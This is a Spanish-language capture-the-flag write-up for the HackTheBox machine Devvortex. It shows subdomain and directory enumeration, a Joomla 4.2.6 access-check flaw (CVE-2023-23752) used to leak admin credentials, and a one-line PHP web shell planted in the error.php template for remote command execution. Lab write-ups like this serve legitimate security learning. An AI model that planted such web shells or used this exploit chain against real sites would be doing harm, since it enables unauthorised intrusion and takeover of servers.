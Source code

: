 Encontraríamos un sub-dominio "**dev.devvortex.htb**", lo añadimos al **"/etc/hosts"** para tener virtual hosting con ese sub-dominio y poder ver su contenido, tiene parentesco al dominio principal, y por su nombre pienso qué es una página para desarrollo y no de producción, así que procedo a enumerar directorios de éste sub-dominio con **GoBuster**.

```bash
❯ gobuster dir -u http://dev.devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
===============================================================

===============================================================

/administrator/       (Status: 200) [Size: 12211]
```

Encontraríamos el directorio "**/administrator**", así que ingreso a éste porque me interesa ver qué hay, encontrándonos con un panel de autenticación del **CMS** Joomla.

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125202429.png)

Se me ocurrió usar la herramienta "**joomscan**" para buscar posibles vulnerabilidades en la versión de éste Joomla, pero no encontré nada, pero al menos la herramienta me reportó la versión del **CMS**, qué es **4.2.6**, así qué indagué en internet sobre posibles vulnerabilidades para ésta versión de Joomla.

Encontré la vulnerabilidad [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce), que nos permite abusar de una verificación de acceso incorrecto de esta versión hasta la 4.0.0, para poder filtrar información privilegiada qué no deberíamos tener acceso, exactamente acceso en texto claro a las credenciales de usuarios del CMS.

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125203847.png)

Procedemos a usar éstas credenciales para loguearnos como el usuario "**lewis**" en el CMS.

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125204027.png)

Hemos logrado acceso al CMS como "**lewis**", ahora buscamos una manera de poder ganar acceso a la máquina, lo qué se me ocurre es ver los "site templates", ver sí tenemos permiso para escribir en ellos & modificarlos de tal manera qué podamos llevar a cabo un **RCE**.

Para ello voy a **System** > Sites Templates > y selecciono el único template existente.

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125204201.png)

Tengo varios recursos, intento ver en cual puedo escribir.

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125204250.png)

Hemos logrado cambiar el recurso "**error.php**", así que ingreso un script PHP malicioso para poder llevar a cabo el RCE.

```bash
<?php system($_GET['cmd']); ?>
```

Una vez guardado, vamos al recurso "**error.php**", para poner el parámetro "**cmd**" en la URL y controlar el comando que queramos ejecutar.
![](/assets/images/htb-writeup-devvortex/Pasted image 20231125204632.png)

